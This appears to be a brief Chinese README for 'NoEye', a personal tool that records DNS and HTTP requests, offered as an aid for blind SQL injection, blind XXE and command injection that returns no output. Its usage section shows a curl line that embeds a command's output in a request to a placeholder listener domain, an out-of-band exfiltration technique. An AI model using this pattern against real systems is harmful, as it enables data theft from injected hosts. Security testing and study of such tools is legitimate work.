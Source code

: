 # [NoEye](http://www.jianshu.com)
记录DNS记录和HTTP请求

>碰上盲注 盲xxe 无回显命令执行再也不用怕了

## 简单用法

>curl yourdomain/user/payload

>curl yourdomain/user/`command`


```
个人测试学习所用，目前只有HTTP记录，有兴趣可以改造一下
```

